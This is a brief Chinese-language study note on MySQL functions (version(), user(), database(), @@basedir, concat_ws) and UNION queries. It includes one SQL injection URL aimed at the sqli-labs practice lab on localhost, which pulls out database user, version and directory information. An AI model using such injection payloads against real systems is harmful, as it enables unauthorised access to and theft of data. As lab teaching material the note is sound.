

# 问题： 数据库一些相关函数、变量：
version(),user(),database(),@@basedir,
concat_ws的作用, union 联合 查询
	http://localhost/sqli-labs/Less-1/?id=1' union select 1,concat_ws('-',user(),version(),database()),@@basedir %23